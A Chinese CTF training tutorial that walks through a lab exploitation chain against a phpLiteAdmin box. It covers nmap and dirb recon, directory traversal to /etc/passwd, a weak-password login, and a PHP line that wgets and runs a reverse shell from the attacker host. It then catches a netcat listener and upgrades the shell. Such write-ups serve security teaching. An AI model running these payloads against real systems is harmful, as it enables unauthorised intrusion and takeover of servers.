# CTF最强战队蓝莲花内部培训教程：P17：18.CTF夺旗-目录遍历漏洞利用实战 🚩

## 概述
在本节课中，我们将学习Web安全中的目录遍历漏洞。我们将从信息收集开始，逐步利用该漏洞，最终获取目标主机的shell访问权限，为后续的权限提升打下基础。整个过程将涵盖漏洞探测、利用、Web Shell上传和反弹Shell获取。

## 目录遍历漏洞简介
目录遍历漏洞，也称为路径遍历攻击，其核心目的是访问存储在Web根目录之外的文件和目录。

攻击者通过操纵带有“点-斜线”（`../`）序列的变量或使用绝对文件路径，可以访问应用程序源代码、配置文件甚至关键的系统文件。需要注意的是，操作系统的访问控制（如文件权限）会限制此类访问。例如，在Windows或Linux上设置为不可读的文件，即使存在路径遍历漏洞，也无法直接读取内容。

## 实验环境搭建
*   **攻击机**：Kali Linux， IP: `192.168.1.106`
*   **靶机**：未知Linux系统， IP: `192.168.1.104`

我们的最终目标是获取靶机的`root`权限并读取`flag`。

## 第一步：信息收集与探测
在开始攻击前，我们需要尽可能多地了解目标。信息收集是渗透测试的第一步。

### 1. 服务与版本扫描
我们使用`Nmap`来扫描靶机开放的服务及其版本信息。





**命令**：
```bash
nmap -sV 192.168.1.104
```
这个命令会发送探测包，分析返回的响应，从而识别出开放端口（如80、22）及运行的服务（如Apache、SSH）和版本号。

### 2. 全面系统探测
为了获取更详细的信息（如操作系统类型、MAC地址等），我们可以使用`Nmap`的全面扫描模式。



**命令**：
```bash
nmap -T4 -A -v 192.168.1.104
```
参数说明：
*   `-T4`: 设置扫描速度为4（较快）。
*   `-A`: 启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`: 显示详细输出。

### 3. Web服务指纹识别
扫描结果显示靶机开放了80端口的HTTP服务。我们使用`nikto`来探测Web应用的详细信息。

**命令**：
```bash
nikto -h http://192.168.1.104
```
`nikto`会检查潜在的敏感文件、过时的服务器软件、常见的配置错误等。



### 4. Web目录枚举
同时，我们使用`dirb`工具来暴力枚举网站可能存在的隐藏目录和文件。

**命令**：
```bash
dirb http://192.168.1.104
```
`dirb`使用内置的字典文件，尝试访问大量常见的路径，从而发现像`/admin`、`/backup`、`/config`这样的敏感目录。

**信息收集结果分析**：
通过上述工具，我们发现了几个关键信息：
1.  靶机运行 **Apache 2.2.22**。
2.  发现一个疑似数据库管理后台的路径：`/dbadmin`。
3.  访问`http://192.168.1.104`，是一个在线商城界面。

## 第二步：漏洞挖掘与确认
在收集了基本信息后，我们需要深入挖掘可利用的漏洞。

### 1. 访问敏感页面
我们访问之前发现的`/dbadmin`目录，发现了一个`testDB.php`文件，这是一个名为“phpLiteAdmin”的数据库管理界面。



### 2. 自动化漏洞扫描
为了系统性地寻找漏洞，我们使用自动化扫描工具**OWASP ZAP**。
*   启动ZAP，输入靶机地址`http://192.168.1.104`进行攻击扫描。
*   扫描器会自动爬取网站结构并进行漏洞测试。



**扫描结果**：
ZAP成功发现了一个**目录遍历漏洞**。报告显示，访问特定的URL可以读取系统文件`/etc/passwd`。

**漏洞验证**：
在浏览器中直接访问ZAP提供的漏洞URL（例如`http://192.168.1.104/vulnerable.php?file=../../../../etc/passwd`），成功显示了`/etc/passwd`文件的内容，确认漏洞存在。

## 第三步：漏洞利用思路
确认漏洞后，我们需要制定利用计划来获取系统权限。

核心思路分为以下几步：
1.  **上传Web Shell**：在靶机上找到一个可以写入文件的地方（如数据库备份、文件上传点），将我们的恶意PHP代码（Web Shell）上传上去。
2.  **触发Web Shell**：利用已发现的目录遍历漏洞，去访问我们上传的Web Shell文件。
3.  **建立反向连接**：Web Shell代码中包含连接回我们攻击机（Kali）的指令。我们在Kali上提前开启监听，等待靶机主动连接回来，从而获得一个反向Shell。



## 第四步：实战利用过程
现在，我们将按照上述思路进行实战操作。



### 1. 获取Web Shell写入点
我们回到之前发现的`phpLiteAdmin`后台（`/dbadmin/testDB.php`）。
*   **登录**：尝试使用弱口令`admin/admin`成功登录。
*   **寻找写入方法**：经观察，该数据库管理系统可以创建数据库，并且数据库名和表内容可能被访问。如果我们创建一个以`.php`结尾的数据库文件，并通过目录遍历去访问它，服务器可能会将其作为PHP代码执行。

### 2. 准备反弹Shell代码
我们在Kali上准备一个PHP的反向Shell脚本。Kali系统自带了许多Web Shell模板。

**操作**：
```bash
# 定位并复制PHP反向Shell模板到桌面
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/
cd ~/Desktop
# 编辑Shell脚本，设置反弹连接的IP和端口
nano php-reverse-shell.php
```
在编辑器中，找到`$ip`和`$port`变量，将其修改为Kali攻击机的IP（`192.168.1.106`）和一个监听端口（例如`4444`）。保存文件并重命名为`shell.php`以便使用。

### 3. 通过数据库写入Web Shell
在`phpLiteAdmin`中：
1.  创建一个名为`shell.php`的数据库。
2.  在该数据库中创建一个表（例如`exec`），并添加一个文本类型（TEXT）的字段。
3.  在该字段中，插入能够下载并执行我们Web Shell的PHP代码。代码如下：
    ```php
    <?php system("cd /tmp; wget http://192.168.1.106:8000/shell.php; chmod +x shell.php; php shell.php"); ?>
    ```
    这段代码的意思是：切换到`/tmp`目录，从Kali的HTTP服务下载`shell.php`，赋予执行权限，然后运行它。

### 4. 搭建简易HTTP服务并开启监听
在Kali上执行以下命令：
```bash
# 在桌面目录启动一个Python简易HTTP服务器，端口8000
cd ~/Desktop
python -m SimpleHTTPServer 8000

# 打开另一个终端，使用netcat监听4444端口，等待反弹连接
nc -nlvp 4444
```

### 5. 触发漏洞获取Shell
现在，利用目录遍历漏洞去访问我们“创建”的数据库文件。在浏览器中构造URL，遍历到数据库文件路径（例如`http://192.168.1.104/dbadmin/../../../../var/www/db/shell.php`）。

当访问该URL时，服务器会执行数据库文件中的PHP代码。代码会从`http://192.168.1.106:8000/shell.php`下载真正的反向Shell脚本并执行。





### 6. 接收Shell并升级
此时，在`nc`监听终端，我们会收到一个来自靶机的连接，并获得一个简单的Shell。这个Shell通常是`www-data`用户的权限，且功能受限。

**升级Shell**：
为了获得一个功能完整的交互式终端，我们在获得的Shell中执行以下Python代码：
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
执行后，我们就获得了一个更易用的`bash` shell，当前用户是`www-data`。

## 总结与延伸
本节课中，我们一起学习了目录遍历漏洞的完整利用链：
1.  **信息收集**：使用`Nmap`、`Nikto`、`Dirb`等工具探测目标。
2.  **漏洞发现**：通过手动测试和自动化工具（OWASP ZAP）确认目录遍历漏洞。
3.  **利用准备**：寻找文件上传点（本例中为数据库管理后台），准备反向Shell代码。
4.  **获取初始访问**：结合目录遍历和文件上传，将Web Shell写入服务器并触发，成功获得反向Shell（`www-data`权限）。

**权限提升思路**：
目前我们拥有的是`www-data`用户权限，并非最终目标`root`。下节课我们将学习如何提权。常见的提权思路包括：
*   利用`sudo`权限配置不当。
*   利用系统内核漏洞。
*   寻找具有`SUID`权限的可执行文件。
*   分析`crontab`定时任务，劫持高权限任务。
*   尝试破解从`/etc/passwd`和`/etc/shadow`文件中提取的哈希密码。



本节课的核心是利用**目录遍历**这一入口，结合其他漏洞（如弱口令、不安全的功能点）形成攻击链，最终在目标系统上建立据点。